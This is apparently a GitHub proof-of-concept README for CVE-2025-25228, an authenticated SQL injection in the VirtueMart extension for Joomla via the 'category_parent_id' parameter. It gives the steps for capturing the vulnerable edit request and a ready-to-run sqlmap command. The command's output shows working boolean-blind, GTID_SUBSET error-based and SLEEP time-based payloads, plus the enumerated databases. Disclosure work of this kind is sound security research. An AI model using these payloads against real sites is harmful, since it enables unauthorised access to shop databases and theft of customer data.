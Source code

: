# CVE-2025-25228: SQL injection in VirtueMart 1.0.0 - 4.4.7 for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-25228

**VirtueMart:** https://extensions.joomla.org/extension/virtuemart/

## Introduction
An authenticated (administrator) SQLi vulnerability exists in VirtueMart for Joomla! v4.2.18 via the 'category_parent_id' parameter under Product Category.

## POC
To exploit this vulnerability go to 'VirtueMart Control Panel >> Products >> Categories >> Category Name >> Pagination >> Edit' and save the edit request (req.txt).

![Alt text](VirtueMart.png)

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql -p 'category_parent_id' --batch

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: MULTIPART category_parent_id ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_name"

Pagination

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

(SELECT (CASE WHEN (7632=7632) THEN 0 ELSE (SELECT 2787 UNION SELECT 4392) END))

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND GTID_SUBSET(CONCAT(0x716a627a71,(SELECT (ELT(4979=4979,1))),0x716a767171),4979)

------WebKitFormBoundary1xRyO15ozs2f9XjA
Content-Disposition: form-data; name="category_parent_id"

0 AND (SELECT 4218 FROM (SELECT(SLEEP(5)))cNIy)
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
